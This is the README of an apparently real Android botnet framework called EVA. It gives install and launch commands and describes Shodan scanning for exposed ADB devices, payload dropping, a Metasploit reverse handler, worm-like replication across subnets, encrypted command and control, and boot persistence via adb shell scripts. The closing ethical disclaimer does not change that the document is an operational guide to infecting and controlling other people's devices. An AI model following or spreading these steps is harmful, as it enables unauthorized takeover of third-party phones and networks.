 # Eva_adb_botnet
# EVA ADB Botnet by Team EVA

**Codename:** JEANGREY  
**Platform:** Kali Linux  
**Built with Love by:** x3rx3s, ekomsSavior & m0usem0use
**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, persistent device control, and integrated mesh command for long-term defense.

---

## What is EVA?

EVA is a fully modular ADB-based Android botnet framework for Kali Linux.

## How to Install (Kali Linux)

```bash
sudo apt update && sudo apt install -y android-tools-adb python3-pip
pip3 install pycryptodome requests
chmod +x ngrok
mkdir -p ~/EVA/bots
cd ~/EVA
```

- Place your EVA repo files inside `~/EVA`
- Add your Shodan API key to `adb_reaper.py`
- Point `adb_dropper.py` to your payload (`adb.apk` or `jeangrey_android.py`)
- Set a strong `SECRET_KEY` (16, 24, or 32 bytes) in `jeangrey_crypto.py`

---

## How to Run EVA (Full Botnet Launch)

```bash
cd ~/EVA
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open ADB devices
- Deploy the payload
- Launch Metasploit reverse handler
- Deploy `jeangrey_android.py` to devices
- Activate mesh networking and peer discovery
- Launch replication loop to infect nearby subnet hosts
- Launch EVA Core for sending encrypted commands
- Launch AI trigger listener for auto-response
- Broadcast EVA presence across the mesh

---

## How to View Active Bots (Live Dashboard)

```bash
python3 eva_dashboard.py
```

This curses-based interface will auto-load `jeangrey_state.json` files from each bot and show their bot_id, IP, tags, and last seen timestamps.

---

## How to Send Commands (Mesh Control via EVA Core)

```bash
python3 eva_core.py
```

Input bot IPs and send commands like:
- `scan` → triggers a subnet scan for new victims
- `drop` → deploys payload to self or others
- `report` → sends back bot state in JSON
- `shutdown` → stops the bot
You can delay execution by X seconds to schedule attacks.

---

## How to Make Bots Respond Autonomously

```bash
python3 eva_ai_trigger.py
```

Each bot listens for encrypted commands and reacts instantly:
- Scans networks
- Drops payloads
- Sends back encrypted state
- Shuts down gracefully when needed
- Executes any command issued by EVA Core

---

## Bot State Tracking + Tags

Each bot writes `bots/bot_<ip>/jeangrey_state.json` including:
- bot_id
- ip address
- join time
- last_seen
- custom tags like ["mesh", "wifi", "replica"]

Tags are displayed in the dashboard and can be modified by EVA Core or AI triggers.

---

## Persistence (Make Bots Survive Reboot)

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This script appends `python /sdcard/Download/jeangrey_android.py &` to `~/.bashrc` or relevant startup files so bots automatically rejoin EVA mesh on boot.

---

## Sustaining the Botnet Long-Term

- EVA replicates automatically on each network the infected device joins
- Bots beacon to each other and rebuild mesh even without central command
- EVA Core can be restarted anytime to resume control
- Bots update `last_seen` in their JSON for long-term tracking
- Dashboard allows real-time monitoring of bot activity
- AI listener allows EVA to run passively and react to threats or schedules

---

## Ethical Warning

This framework is intended **only** for:
- Personal research
- Lab simulations
- Red team training
- Educational proof-of-concepts

Never use EVA on unauthorized networks or devices. Unauthorized deployment is illegal. You assume full responsibility for ethical and legal use.

---

